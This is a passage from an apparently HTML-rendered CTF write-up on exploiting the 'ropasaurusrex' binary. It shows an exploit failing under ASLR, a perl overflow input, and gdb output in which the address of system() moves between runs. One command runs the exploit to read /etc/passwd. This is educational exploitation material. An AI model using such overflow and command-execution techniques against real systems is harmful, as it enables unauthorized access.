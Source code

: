 WRONG!

This exploit worked perfectly against my test machine, but when ASLR is enabled, it failed:

```

<span class="lnr">1 </span>$ sudo sysctl <span class="Special">-w</span> <span class="Identifier">kernel.randomize_va_space</span>=<span class="Constant">1</span>
<span class="lnr">2 </span>kernel.randomize_va_space <span class="Statement">=</span> <span class="Constant">1</span>
<span class="lnr">3 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">cat /etc/passwd</span><span class="Statement">"</span>
```

This is where it starts to get a little more complicated. Let's go!

## What is ASLR?

ASLR—or address space layout randomization—is a defense implemented on all modern systems (except for FreeBSD) that randomizes the address that libraries are loaded at. As an example, let's run ropasaurusrex twice and get the address of <tt>system()</tt>:

```

<span class="lnr"> 1 </span>ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">'</span><span class="Constant">printf "A"x1000</span><span class="Statement">'</span> | ./ropasaurusrex
<span class="lnr"> 2 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr"> 3 </span>ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr"> 4 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr"> 5 </span><span class="Comment">#0  0x41414141 in ?? ()</span>
<span class="lnr"> 6 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x system
<span class="lnr"> 7 </span>0xb766e450 <span class="Statement"><</span>system<span class="Statement">></span>:    0x890cec83
<span class="lnr"> 8 </span>
<span class="lnr"> 9 </span>ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">'</span><span class="Constant">printf "A"x1000</span><span class="Statement">'</span> | ./ropasaurusrex
<span class="lnr">10 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr">11 </span>ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr">12 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">13 </span><span class="Comment">#0  0x41414141 in ?? ()</span>
<span class="lnr">14 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x system
<span class="lnr">15 </span>0xb76a7450 <span class="Statement"><</span>system<span class="Statement">></span>:    0x890cec83
```

Notice that the address of <tt>system()</tt> changes from <tt>0xb766e450</tt> to <tt>0xb76a7450</tt>. That's a problem!
